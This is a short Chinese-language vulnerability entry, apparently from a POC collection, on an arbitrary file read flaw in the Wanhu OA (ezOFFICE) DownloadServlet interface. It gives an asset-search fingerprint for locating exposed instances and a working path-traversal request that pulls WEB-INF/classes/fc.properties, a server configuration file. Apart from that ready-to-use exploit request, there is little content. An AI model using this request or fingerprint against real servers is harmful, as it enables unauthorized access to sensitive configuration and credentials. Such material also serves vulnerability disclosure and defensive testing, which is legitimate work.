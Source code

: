 # 万户OA DownloadServlet 任意文件读取漏洞

## 漏洞描述

万户OA DownloadServlet接口存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器中的敏感文件，获取敏感信息

## 漏洞影响

<a-checkbox checked>万户OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-2354324.png)

验证POC

```html
/defaultroot/DownloadServlet?modeType=0&key=x&path=..&FileName=WEB-INF/classes/fc.properties&name=x&encrypt=x&cd=&downloadAll=2 
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662082139955-1b99e2cd-bba3-4bba-9684-84b068a5c17a.png)